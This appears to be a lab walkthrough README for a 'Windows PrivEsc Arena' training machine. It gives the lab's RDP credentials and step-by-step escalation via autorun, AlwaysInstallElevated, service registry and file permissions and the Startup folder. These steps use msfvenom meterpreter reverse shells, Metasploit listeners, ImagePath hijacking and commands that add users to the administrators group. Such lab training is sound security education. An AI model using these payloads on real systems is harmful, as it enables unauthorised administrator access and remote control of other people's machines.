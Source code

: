 # Windows PrivEsc Arena

<img width="1902" height="361" alt="image" src="https://github.com/user-attachments/assets/96706b9f-7faa-4ad5-8d3f-965cd8c67d44" />

---

>[!important]
> ### Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:
> #### **`username`** : user
> #### **`password`** : password321
>
> ### `For any administrative actions you might take, your credentials are:`
> #### **`username`** : TCM
> #### **`password`** : Hacker123
>

---

>[!warning]
> ### Connect To Target
> ```ruby
> xfreerdp3 /u:user /p:password321 /v:10.10.71.148 /cert:ignore /sec:rdp
> ```
> **`Or`**
>
>```ruby
> rdesktop 10.10.103.25 -u user -p password321
>```

---

<details>
  <summary>Registry Escalation</summary>





- <details>
      <summary>Autorun</summary>




  
  Windows Privilege Escalation: Insecure Autorun Permissions
  ==========================================================
  
  This guide demonstrates a privilege escalation technique by exploiting an executable in an autorun location that has insecure file permissions. The goal is to replace the legitimate program with a malicious payload, which will be executed with higher privileges when an administrator logs in.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify the vulnerable autorun program and confirm its weak permissions.
  
  1.  Scan for Autorun Programs
  
      Open a command prompt on the Windows VM and run Autoruns to inspect programs that launch on startup.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
  
      ```
  
  2.  Inspect Logon Items
  
      In the Autoruns window, click on the Logon tab to see all applications that run when a user logs in.
  
  3.  Identify the Target Program
  
      From the list, notice the "My Program" entry. Observe that it points to the following executable:
  
      ```
      C:\Program Files\Autorun Program\program.exe
  
      ```

      <img width="819" height="209" alt="image" src="https://github.com/user-attachments/assets/08b8581f-0b3a-4cc6-9c0a-8986e8ad13da" />


  4.  Check File Permissions
  
      Return to the command prompt and use accesschk64.exe to check the permissions on the program's directory.
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
  
      ```

      <img width="647" height="263" alt="image" src="https://github.com/user-attachments/assets/d20be315-7309-4288-9cb4-ec06353ce661" />


  5.  Confirm the Vulnerability
  
      The output will show that the Everyone user group has ``FILE_ALL_ACCESS`` permission. This is the vulnerability, as it means any user can modify or replace the program.exe file.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a malicious payload, setting up a listener to receive the connection, and replacing the original executable.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  First, we will use the Metasploit Framework to create a reverse shell payload and a listener to catch the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```


  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```

      <img width="863" height="492" alt="image" src="https://github.com/user-attachments/assets/d70396ea-063a-465c-99a1-8d1fa4efc54e" />

  
  4.  Generate the Malicious Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious program.exe that will connect back to your listener.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o program.exe
  
      ```

     <img width="929" height="337" alt="image" src="https://github.com/user-attachments/assets/d4d93941-457d-46a8-8a3f-07f1eca288fe" />

  
  5.  Transfer the Payload
  
      Copy the newly generated program.exe file from your Kali VM to the Windows VM's desktop.

      <img width="1543" height="609" alt="image" src="https://github.com/user-attachments/assets/5daebdf6-0778-4aca-8596-96e866c26c38" />


  ### 2\. Planting the Payload (Windows VM)
  
  1.  On the Windows VM, replace the original program with your malicious payload. You can do this via the command line or file explorer:
  
      
  
      ```DOS
      move C:\Users\User\Desktop\program.exe "C:\Program Files\Autorun Program\program.exe"
  
      ```
  
      *(Confirm overwrite if prompted)*
  
  2.  To trigger the exploit, you must simulate the condition under which the program runs with elevated privileges. **Log off** from the current user session and then **log back on as an administrator**.
  
  ✅ Gaining Access & Verification
  -------------------------------
  
  When the administrator logs in, the malicious `program.exe` will execute and connect back to your listener on the Kali VM.
  
  1.  Catch the Session
  
      In your Metasploit terminal, you will see a new session being created.
  
      ```
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Interact with the Session
  
      Enter the new session using its ID.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
  
      ```
  
  3.  Verify Privileges
  
      To confirm that the attack was successful and you have escalated privileges, run the getuid command. The output should show that you are running as the administrator user.
  
      
  
      ```Ruby
      meterpreter > getuid
  
      ```
  





  </details>




- <details>
      <summary>AlwaysInstallElevated</summary>


  
  
  Windows Privilege Escalation: AlwaysInstallElevated
  ===================================================
  
  This guide demonstrates how to exploit the `AlwaysInstallElevated` policy in Windows to achieve privilege escalation. When this policy is enabled in both the `HKEY_LOCAL_MACHINE` (HKLM) and `HKEY_CURRENT_USER` (HKCU) registry hives, it allows any user to install MSI packages with `NT AUTHORITY\SYSTEM` privileges.
  
  🕵️‍♂️ Detection
  ----------------
  
  The first step is to query the Windows Registry to confirm that the `AlwaysInstallElevated` policy is enabled for both the system and the current user.
  
  1.  Check the Local Machine Policy (HKLM)
  
      Open a command prompt on the Windows VM and query the following registry key:
  
      
  
      ```DOS
      reg query HKLM\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is present and set to `0x1`.
  
  2.  Check the Current User Policy (HKCU)
  
      Next, query the key for the current user:
  
      
  
      ```DOS
      reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  
      ```
  
      > Confirm that the `AlwaysInstallElevated` value is also set to `0x1`. If both keys are set to 1, the system is vulnerable.
  
  💥 Exploitation
  ---------------
  
  Now we will generate a malicious MSI package and use it to gain a privileged shell on the target machine.
  
  ### 1\. Setting Up the Listener & Payload (Kali VM)
  
  Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.
  
  1.  **Start Metasploit**
  
      
  
      ```Bash
      msfconsole
  
      ```
  
  2.  Configure the Multi/Handler
  
      This module will listen for the incoming connection from our MSI payload.
  
      
  
      ```Ruby
      msf6 > use multi/handler
      msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
  
      ```
  
  3.  Start the Listener
  
      The listener will now wait for a connection.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > run
  
      ```
  
  4.  Generate the Malicious MSI Payload
  
      Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .msi file.
  
      
  
      ```Bash
      msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f msi -o setup.msi
  
      ```
  
  5.  Transfer the Payload
  
      Copy the newly generated setup.msi file from your Kali VM to the Windows VM, placing it in a writable directory like C:\Temp.
  
  ### 2\. Executing the Payload (Windows VM)
  
  1.  On the Windows VM, open a command prompt and execute the MSI package using `msiexec`. The `/quiet` and `/qn` flags will run the installation silently in the background.
  
      
  
      ```DOS
      msiexec /quiet /qn /i C:\Temp\setup.msi
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Return to your Metasploit terminal on the Kali VM. The MSI installer will execute with `SYSTEM` privileges and connect back to your listener.
  
  1.  Catch the Privileged Shell
  
      You will see a new Meterpreter session open.
  
      ```ruby
      [*] Meterpreter session 1 opened (...)
  
      ```
  
  2.  Verify Privileges
  
      Interact with the new session and run the getuid command to confirm your identity.
  
      
  
      ```Ruby
      msf6 exploit(multi/handler) > sessions -i 1
      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  
      ```
  
      You have successfully escalated to the highest privilege level on the system.
  
  



  </details>





  
</details>













<details>
  <summary>Service Escalation</summary>






- <details>
      <summary>Registry</summary>





  
  Windows Privilege Escalation: Insecure Service Registry Permissions
  ===================================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service with weak permissions on its associated registry key. If a user has `FullControl` over a service's registry entry, they can modify its configuration---such as the executable it runs (`ImagePath`)---to execute arbitrary code with the service's privileges, which are often `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we must identify that a low-privileged user has modification rights over a service's registry key.
  
  1.  Check Registry Key Permissions
  
      Open a PowerShell prompt on the Windows VM and use Get-Acl to inspect the permissions for the target service's registry key (regsvc).
  
      
  
      ```PowerShell
      Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
  
      ```

     <img width="994" height="270" alt="image" src="https://github.com/user-attachments/assets/5f376f33-75df-4868-a440-f9afb2c52cb2" />



  2.  Identify the Vulnerability
  
      In the output, examine the Access list. Notice that the NT AUTHORITY\INTERACTIVE group has FullControl permission. This is the vulnerability. The INTERACTIVE group includes any user who is logged on locally, meaning our low-privileged user can modify this key.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves creating a custom executable, modifying the vulnerable service to run it, and then starting the service to trigger our payload.
  
  ### 1\. Preparing the Payload (Kali VM)
  
  We will compile a simple C program that adds our user to the local administrators group.
  
  1.  Transfer the Source Code
  
      First, copy the source file windows_service.c from the Windows VM (C:\Users\User\Desktop\Tools\Source\) to your Kali VM.

      <img width="1305" height="253" alt="image" src="https://github.com/user-attachments/assets/e000b2bd-8f58-4ec3-8a64-befdd41c2085" />

     
  2.  Modify the Payload Command
  
      Open windows_service.c on Kali with a text editor. Find the line containing the system() function and change its command to the following, which will add a user named user to the local administrators group.
  
      
  
      ```C
      system("cmd.exe /k net localgroup administrators user /add");
  
      ```

      <img width="703" height="576" alt="image" src="https://github.com/user-attachments/assets/4d1f4a4e-f154-4199-8c1f-f6c9fd99019d" />


  
  3.  Cross-Compile the Executable
  
      Save the file and compile it for Windows using the mingw-w64 compiler. If you don't have it, install it first with `sudo apt update && sudo apt install gcc-mingw-w64`.
  
      
  
      ```Bash
      x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  
      ```

     <img width="587" height="200" alt="image" src="https://github.com/user-attachments/assets/eca01cdf-f18e-49e8-a426-b577106694fd" />

  
  4.  Transfer the Payload Back
  
      Copy the newly compiled payload, x.exe, from your Kali VM to a writable directory on the Windows VM, such as C:\Temp.

     <img width="513" height="113" alt="image" src="https://github.com/user-attachments/assets/a54a9283-0bd5-400e-a9ec-651a72a6c76c" />


  ### 2\. Modifying and Triggering the Service (Windows VM)
  
  Now, we will reconfigure the service to point to our new executable and then start it.
  
  1.  Change the Service's Binary Path
  
      On the Windows VM, open a command prompt and run the reg add command to modify the ImagePath for the regsvc service. This tells the service to run our payload instead of its original program.
  
      
  
      ```DOS
      reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
  
      ```

     <img width="648" height="127" alt="image" src="https://github.com/user-attachments/assets/8a2610a0-b3df-448f-bbea-8bf1eabcd0d6" />


  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute c:\temp\x.exe with the service's LocalSystem privileges.
  
      
  
      ```DOS
      sc start regsvc
  
      ```

     <img width="659" height="166" alt="image" src="https://github.com/user-attachments/assets/f523d731-d60c-4996-8164-7b6f566e29c9" />

   
      The command in our payload will now execute, adding the `user` to the administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member, confirming that you have successfully escalated privileges.
  
  
      **`before`**

     <img width="651" height="166" alt="image" src="https://github.com/user-attachments/assets/095264d1-ad26-478e-b106-7b2e2e013f15" />


     **`after`**

     <img width="652" height="213" alt="image" src="https://github.com/user-attachments/assets/328a56ef-cd33-412a-94d0-c49ce3b4e6fe" />



  </details>


- <details>
      <summary>Executable Files</summary>




  
  
  Windows Privilege Escalation: Insecure Service File Permissions
  ===============================================================
  
  This guide demonstrates a privilege escalation technique by exploiting a Windows service whose executable has weak file permissions. If a low-privileged user can overwrite the service's executable, they can replace it with a malicious payload. When the service is next started, the payload will execute with the high privileges of the service account, typically `NT AUTHORITY\SYSTEM`.
  
  🕵️‍♂️ Detection
  ----------------
  
  First, we need to identify a service executable with insecure permissions that allows a standard user to modify or replace it.
  
  1.  Check File Permissions
  
      Open a command prompt on the Windows VM and use accesschk64.exe to inspect the permissions for the target service executable (filepermservice.exe).
  
      
  
      ```DOS
      C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
  
      ```
  
  2.  Identify the Vulnerability
  
      The output indicates that the Everyone user group has FILE_ALL_ACCESS permission on the filepermservice.exe file. This is a critical misconfiguration, as it means any user on the system can replace this executable.
  
  ⚙️ Prerequisite: Creating the Payload
  -------------------------------------
  
  Before we can exploit this, we need to create a malicious executable (`x.exe`) that will perform our privileged action. We will use `msfvenom` on a Kali VM for this.
  
  1.  Generate the Payload
  
      On your Kali machine, run the following command to generate an executable that adds a standard user named user to the local administrators group.
  
      
  
      ```Bash
      msfvenom -p windows/exec CMD="net localgroup administrators user /add" -f exe -o x.exe
  
      ```
  
  2.  Transfer the Payload
  
      Copy the newly generated x.exe from your Kali machine to a writable directory on the Windows VM, such as C:\Temp.
  
  💥 Exploitation
  ---------------
  
  With the payload ready, we can now overwrite the original service executable and start the service to trigger our exploit.
  
  1.  Overwrite the Service Executable
  
      On the Windows VM, open a command prompt and use the copy command to replace the legitimate service executable with our malicious payload. The /y flag suppresses the overwrite confirmation prompt.
  
      
  
      ```DOS
      copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
  
      ```
  
  2.  Start the Service to Trigger the Exploit
  
      Now, start the service. Windows will execute our malicious payload with LocalSystem privileges.
  
      
  
      ```DOS
      sc start filepermsvc
  
      ```
  
      The command embedded in our payload will now run, adding the `user` to the local administrators group.
  
  ✅ Verification
  --------------
  
  To confirm that the privilege escalation was successful, check the membership of the local administrators group.
  
  1.  Check Administrators Group
  
      In the same command prompt, type:
  
      
  
      ```DOS
      net localgroup administrators
  
      ```
  
      You will now see the `user` account listed as a member of the group, confirming that you have successfully escalated privileges on the system.
  
  
  





  </details>


- <details>
      <summary> DLL Hijacking</summary>
  </details>


- <details>
      <summary>binPath</summary>
  </details>


- <details>
      <summary>Unquoted Service Paths</summary>
  </details>
  
  
  
  






  
</details>
















<details>
  <summary>Privilege Escalation - Startup Applications</summary>



Windows Persistence & PrivEsc: Writable Startup Folder
======================================================

This guide demonstrates a persistence and potential privilege escalation technique by exploiting a globally writable "All Users" Startup folder. If a low-privileged user can place an executable in this folder, that program will automatically run whenever *any* user---including an administrator---logs into the system. This can be used to gain a shell with the privileges of the user who logs in next.

🕵️‍♂️ Detection
----------------

First, we need to check the permissions of the `All Users` Startup folder to see if it's writable by our current user.

1.  Check Folder Permissions

    Open a command prompt on the Windows VM and use icacls.exe to inspect the permissions for the Startup folder.

    

    ```DOS
    icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

    ```

2.  Identify the Vulnerability

    In the output, look for the permissions granted to the BUILTIN\Users group. If it shows (F) for Full Access or (M) for Modify access, the folder is writable, and the system is vulnerable to this technique.

💥 Exploitation
---------------

The exploitation process involves creating a reverse shell payload, placing it in the vulnerable Startup folder, and waiting for a privileged user to log in.

### 1\. Setting Up the Listener & Payload (Kali VM)

Use the Metasploit Framework on your Kali machine to create the payload and a listener to receive the connection.

1.  **Start Metasploit**

    

    ```Bash
    msfconsole

    ```

2.  Configure the Multi/Handler

    This module will listen for the incoming connection from our payload.

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>

    ```

3.  Start the Listener

    The listener will now wait for a connection.

    

    ```Ruby
    msf6 exploit(multi/handler) > run

    ```

4.  Generate the Malicious Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create a malicious .exe file.

    

    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your Kali VM IP Address> -f exe -o x.exe

    ```

5.  Transfer the Payload

    Copy the newly generated x.exe file from your Kali VM to a temporary location on the Windows VM (e.g., the Desktop).

### 2\. Planting the Payload (Windows VM)

1.  On the Windows VM, move your payload into the vulnerable Startup folder.

    

    ```DOS
    move C:\Users\User\Desktop\x.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"

    ```

2.  To trigger the exploit, **log off** from the current user.

3.  Now, **log in with an administrator account**. When the administrator's desktop loads, the `x.exe` file in the Startup folder will be automatically executed.

✅ Gaining Access & Verification
-------------------------------

Return to your Metasploit terminal on the Kali VM. The payload will connect back to your listener.

1.  Catch the Session

    You will see a new Meterpreter session open. This session is running with the privileges of the administrator who just logged in.

    ```
    [*] Meterpreter session 1 opened (...)

    ```

2.  Verify Privileges

    Interact with the new session and run the getuid command to confirm the user context.

    

    ```Ruby
    meterpreter > getuid
    Server username: User-PC\Admin

    ```

    The output confirms the payload is running as the `Admin` user, successfully capturing a privileged session.



  
</details>








<details>
  <summary>Potato Escalation - Hot Potato</summary>
</details>








<details>
  <summary>Password Mining Escalation</summary>





- <details>
      <summary> Configuration Files</summary>
  </details>



- <details>
      <summary>Memory</summary>
  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>











